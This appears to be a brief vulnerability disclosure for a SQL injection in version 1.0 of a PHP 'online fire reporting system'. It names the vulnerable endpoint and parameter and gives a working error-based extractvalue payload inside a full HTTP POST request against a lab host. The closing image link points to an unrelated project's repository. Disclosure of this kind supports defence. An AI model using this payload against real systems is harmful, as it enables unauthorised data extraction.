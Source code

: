 # online-fire-reporting-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ofrs/classes/Master.php?f=delete_team

Vulnerability location:/ofrs/classes/Master.php?f=delete_team, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/ofrs/classes/Master.php?f=delete_team HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/ofrs/admin/?page=teams
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

